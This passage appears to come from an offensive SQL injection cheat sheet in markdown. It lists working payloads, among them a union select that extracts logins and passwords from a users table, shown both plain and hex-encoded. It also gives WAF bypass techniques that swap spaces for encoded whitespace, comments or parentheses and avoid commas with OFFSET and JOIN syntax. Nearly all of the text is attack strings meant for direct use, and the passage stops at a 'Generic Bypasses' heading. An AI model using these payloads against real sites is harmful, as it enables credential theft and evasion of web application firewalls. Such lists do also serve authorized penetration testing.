 ```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

## WAF Bypass
---

- [Initial bypasses from here](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)

<br>

### No spaces bypass
---

No Space (%20) - bypass using whitespace alternatives

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```

<br>

### No commas bypass
---

No Comma - bypass using OFFSET, FROM and JOIN

```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

<br>

### Generic Bypasses
---
